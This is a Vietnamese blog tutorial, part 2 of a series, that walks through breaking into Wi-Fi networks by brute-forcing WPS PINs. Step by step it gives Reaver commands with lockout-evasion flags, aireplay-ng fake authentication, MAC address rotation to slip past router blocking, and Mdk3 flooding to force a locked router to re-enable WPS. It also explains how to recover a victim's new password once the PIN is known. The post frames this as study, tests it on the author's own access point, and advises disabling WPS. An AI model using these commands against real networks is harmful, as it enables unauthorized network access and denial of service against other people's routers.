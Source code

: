 ```yaml
---
title:  "Nghịch vài trò "hack" Wifi - Phần 2"
header:
    caption: 
categories: 
    - Technology
tags:
    - hackwifi
---
```


# Nghịch vài trò "hack" Wifi - Phần 2: WPS

Ở phần thứ nhất, chúng ta đã tìm hiểu cách hack wifi bằng phương pháp từ điển - lợi dụng sơ hở trong quá trình xác thực bắt tay 4 bước. Hack wifi bằng từ điển có ưu điểm là hạ được nhiều loại bảo mật nhưng lại gặp vấn đề khi người dùng đặt mật khẩu khó, có khi chạy cả tháng, cả năm cũng không ra mật khẩu. Thay vào đó, chúng ta sẽ lợi dụng sơ hở trong xác thực mã pin, hôm nay mình sẽ trình bày phương pháp hack wifi thông qua WPS.

## Tổng quan

Với phương pháp hack wifi bằng WPS, điều kiện tiên quyết là modem wifi phải bật chế độ WPS, vậy WPS là gì?
WPS - WiFi Protected Setup, là tính năng hỗ trợ kết nối mạng wifi giữa Client và AP với nhau, nhưng lại bỏ qua bước phải nhập mật khẩu WiFi truyền thống. Nhờ có WPS mà người dùng không cần nhớ mật khẩu vẫn có thể truy cập vào AP, hầu hết modem hiện nay đều hỗ trợ WPS (có thể xem ở modem nhà bạn). Và quan trọng hơn là nó mặc định được bật :).

## Công cụ và thực hành

- <a href="https://www.aircrack-ng.org/doku.php">Aircrack-ng</a>: công cụ chuyển chế độ monitor
- <a href="https://github.com/t6x/reaver-wps-fork-t6x">Reaver</a>: công cụ mạnh mẽ tấn công kiểm tra các mạng wifi sử dụng phương thức tấn công brute force mã PIN
- <a href="https://gitlab.com/kalilinux/packages/mdk3">Mdk3</a>: công cụ tấn công gói tin tới AP
- <a href="https://github.com/alobbs/macchanger">Macchanger</a>: công cụ hỗ trợ thay đổi địa chỉ mac của thiết bị

Như cách tấn công bằng từ điển, chúng ta cần có 1 card wifi hỗ trợ monitor, ở đây mình vẫn chọn TP-link WN722N V1.
<img src="https://crowi.pionero.io/files/610edcc41120630068a6a65e"  width="400px" height="300px">
Kiểm tra tên của card wifi:

```shell
# airmon-ng
```

<img src="https://crowi.pionero.io/files/610edd4c1120630068a6a660" height="150px">

Tắt toàn bộ tiến trình sử dụng mạng

```shell
# airmon-ng check kill
```

<img src="https://crowi.pionero.io/files/610edd4c1120630068a6a65f" height="150px">

Start monitor cho card có tên là wlan0

```shell
# airmon-ng start: wlan0
```

<img src="https://crowi.pionero.io/files/610ee1381120630068a6a66c" height="150px">

Kiểm tra lại lần nữa:

```shell
# airmon-ng
```

<img src="https://crowi.pionero.io/files/610edd4c1120630068a6a663" height="150px">

Chúng ta có 1 monitor là wlan0mon, bây giờ ta thực hiện các thao tác trên monitor.
Quét tất cả các AP hỗ trợ WPS xung quanh:

```shell
# wash -i wlan0mon
```

![Screenshot_2021-08-29_10-01-20.png](https://crowi.pionero.io/files/612b933d01bb4b0067d0ad93)
Nếu lệnh này không hiển thị được các AP, fix bằng cách tạo 1 thư mục `reaver` cho nó.

```shell
# mdkir /etc/reaver
```

Xác định mục tiêu, như thường lệ, mình vẫn chọn AP có tên là **Room_402**, chính là AP của phòng mình(đã đổi mật khẩu khác trước nhé ^\_^)
Chúng ta cần xác định 1 số tham số:

- Bssid: Địa chỉ MAC của AP
- Channel: Kênh của AP
- Essid: Tên của AP

Sau khi xác định được các yếu tố trên, chạy lệnh:

```shell
# reaver -i wlan0mon -b <bssid> -vv -S -g 21 -A -L -N
```

Trong đó:

- vv: Xem log 1 cách chi tiết
- g: số lần attempts mã pin, ở đây mình chọn là 21 - kinh nghiệm
- A: Không sử dụng _associate_, ở đây mình _associate_ bằng _aireplay-ng_ để tránh timeout
- L: không cập nhât trạng thái locked
- N: không sử dụng Nack message

Sử dụng aireplay-ng để gửi liên tục các fake-auth để tránh tình trạng AP bị timeout.

```shell
# iw dev wlan0mon set channel <channel> && aireplay-ng --fakeauth 15 -a <bssid > -e <essid> wlan0mon
```

Trong quá trình tấn công, có 1 vài modem chặn quá trình tấn công **DDOS** nên chúng ta phải liên tục thay đổi địa chỉ MAC cho monitor.

```shell
# ifconfig wlan0mon down
# macchanger -r wlan0mon
# ifconfig wlan0mon up
```

Tham số -r để chỉ định sinh ra ngẫu nhiên.
![image.png](https://crowi.pionero.io/files/612b953b01bb4b0067d0ad94)

Một số modem có cơ chế tự động tắt WPS nếu nhận quá nhiều attempts, nếu kiểm tra thấy WPS đã bị lock, chúng ta cần tấn công **DDOS** để modem reset và bât lại WPS. Ở đây, ta sử dụng Mdk3 để tấn công.
Chúng ta có thể sử dụng các mode a b d m để tấn công, hoặc kết hợp toàn bộ, chi tiết xem thêm ở <a href="https://kalitut.com/mdk3-examples-tutorial/">đây</a>.

## Kết quả

Sau tầm 15p chúng ta đã có kết quả, mặc dù password đã đặt rất khó: _@&wifi#nay#deo#the#hack#1998$$_
nhưng sử dụng WPS vẫn chỉ mất có 15p ^\_^.
![image.png](https://crowi.pionero.io/files/612b923b01bb4b0067d0ad92)

1 tip nữa sau khi có được mã pin, dù victim có thay đổi mật khẩu thì chúng ta vẫn dễ dàng tìm được, chỉ cần thêm tham số -p ở câu lệnh:

```shell
# reaver -i wlan0mon -b <bssid> -vv -S -g 21 -A -L -N -p <pin>
```

Với pin là pin đã lấy được ở trên.

## Tổng kết

Kĩ thuật lợi dụng WPS là 1 kĩ thuật khó, đòi hỏi phải có nhiều kinh nghiệm cũng như xử lý tốt tình huống.
So với kĩ thuật hack bằng từ điển thì kĩ thuật này có ưu điểm không cần biết mật khẩu đặt khó hay không, nhưng nhược điểm là bắt buộc modem phải bật WPS. Do đó, điều chúng ta rút ra rằng là không nên bật chế độ WPS nếu không thực sự quá cần thiết.
Sang bài tiếp theo, chúng ta sẽ tiếp cận với một hướng đi khác, dễ hơn, lợi hại hơn nhưng cũng nguy hiểm - **Phising Attack**.

_lưu ý: bài viết chỉ nhằm mục đích học tập, mình không chịu trách nhiệm cho mọi tình huống_
